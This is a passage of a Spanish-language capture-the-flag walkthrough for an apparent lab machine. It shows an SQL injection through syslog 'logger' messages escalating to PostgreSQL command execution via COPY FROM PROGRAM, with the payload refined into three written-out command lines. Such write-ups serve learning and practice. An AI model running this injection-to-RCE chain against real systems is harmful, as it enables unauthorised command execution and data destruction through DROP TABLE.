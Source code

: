 ahora voy a tratar de aplicar inyecciones sql ya que vimos la falta de sanitización en el código basandome en los logs que me arroja el sistema para ello me iré a HackTricks buscando algun POC de inyección y ver si consigo un RCE [HackTricksPocRCE_Postgres](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)
Empezaré a inyectar valores de esta forma como anteriormente lo mecioné basandome en los logs, para esto abrí otra terminal y me loguee por ssh como roy otra vez para que en una visualizará los logs y en la otra aplicara las inyecciones
![](/assets/img/commons/Zetta/test.png)
Arriba tenemos viendo los logs y abajo con logger estableciendo la prioridad las consultas, el objetivo de esto es hacer que a nivel de logs ya no me salieron estos errores.
Intentando varias veces acomodando la comilla sin que me reportará errores en el log de esta forma es como lo pude acomodoar, comenzando con un parentesis abriendo query seguido de la comilla para ocasionar la inyección, me seguía reportando errores así que lo mejor fue separarlo de otro valor con comilla con un NULL cerrando con un parentesis y seguido de un ;  
## SQLI to RCE postgres
```console
roy@zetta:~$ logger -p local7.info "NULL',NULL);
```
nuestro POC de Hacktriks donde el valor indica 'id' colocaré una traza icmp para comprobar si tenemos ejecución remota de comandos, y quedaría de la siguiente forma.
```console 
roy@zetta:~$ logger -p local7.info "NULL',NULL); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'ping -c 1 10.10.14.7';-- -"
```
el unico problema aqui son las comillas, asi que me puse a investigar acerca de postgres como podia mandar una consulta omitiendo las comillas y me enontré con algo que sirvió, en lugar de utilizar comillas '' podía usar $$ entonces los dolar los puse y como es un comando dolar lo tuve que escapar quedando ahora nuestra inyección perfecta
```console
roy@zetta:~$ logger -p local7.info "NULL',NULL); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM \$$ ping -c 1 10.10.14.7 \$$;-- -"
```